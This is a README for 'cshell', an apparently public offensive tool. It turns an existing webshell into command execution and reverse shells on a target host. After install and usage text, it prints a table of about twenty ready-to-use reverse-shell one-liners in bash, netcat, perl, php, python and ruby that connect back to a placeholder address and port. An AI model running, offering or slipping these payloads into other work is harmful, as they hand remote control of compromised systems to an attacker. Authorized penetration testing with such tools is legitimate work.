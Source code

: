 # CSHELL
***
[![PyPI version fury.io](https://badge.fury.io/py/ansicolortags.svg)](https://pypi.python.org/pypi/cshell/)   ||
    [![GitHub license](https://img.shields.io/github/license/Naereen/StrapDown.js.svg)](https://github.com/0z09e/cshell/LICENSE)

***
This script takes a working webshell as an argument and can perform the following operations
- rev : This option sends a payload according to your choice and triggers that payload on the target webshell<br\>
- web : This parameter can execute direct command on the webshell using persisted working directory and error message<br/>
- lstnr : This option generates a payload and copies it to the clipboard. It can also start a listener, and also encodes the payload [Both are Optional]

## Install
- From PIP library : 
  ```bash
  pip3 install cshell
  ```
- From Github : 
  ```bash
  git clone https://github.com/0z09e/cshell.git
  cd cshell
  sudo python3 setup.py install
  ```
  
### Usage
```bash
$ cshell --help
usage: cshell.py [-h] [--payloads] {rev,web,lstnr} ...

positional arguments:
  {rev,web,lstnr}

optional arguments:
  -h, --help       show this help message and exit
  --payloads       List all payload formats for rev

web     Direct command execution on the webshell with error message
rev     Reverse shell from a working webshell
lstnr   Generate payload, copy it to your clipboard and start a listener[Optional]
```


### Payloads
```bash
$ cshell --payloads
========================================================================================================
Format-Name                     Payload
========================================================================================================
bash-196                        0<&196;exec 196<>/dev/tcp/127.0.0.1/1337; bash <&196 >&196 2>&196
bash                            bash -i >& /dev/tcp/127.0.0.1/1337 0>&1
bash-read-line                  exec 5<>/dev/tcp/127.0.0.1/1337;cat <&5 | while read line; do $line 2>&5 >&5; done
bash-5                          bash -i 5<> /dev/tcp/127.0.0.1/1337 0<&5 1>&5 2>&5
bash-udp                        bash -i >& /dev/udp/127.0.0.1/1337 0>&1
nc-mkfifo                       rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 127.0.0.1 1337 >/tmp/f
nc                              nc -e /bin/bash 127.0.0.1 1337
nc-c                            nc -c /bin/bash 127.0.0.1 1337
ncat-e                          ncat 127.0.0.1 1337 -e /bin/bash
perl                            perl -e 'use Socket;$i="127.0.0.1";$p=1337;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("bash -i");};'
php-exec                        php -r '$sock=fsockopen("127.0.0.1",1337);exec("bash <&3 >&3 2>&3");'
php-shell-exec                  php -r '$sock=fsockopen("127.0.0.1",1337);shell_exec("bash <&3 >&3 2>&3");'
php-system                      php -r '$sock=fsockopen("127.0.0.1",1337);system("bash <&3 >&3 2>&3");'
php-passthru                    php -r '$sock=fsockopen("127.0.0.1",1337);passthru("bash <&3 >&3 2>&3");'
php-popen                       php -r '$sock=fsockopen("127.0.0.1",1337);popen("bash <&3 >&3 2>&3", "r");'
python                          python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
python-export                   export RHOST="127.0.0.1";export RPORT=1337;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'
python3                         python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
python3-export                  export RHOST="127.0.0.1";export RPORT=1337;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")
ruby                            export RHOST=127.0.0.1;export RPORT=1337;ruby -rsocket -e 'exit if fork;c=TCPSocket.new(ENV["RHOST"],ENV["RPORT"]);while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```
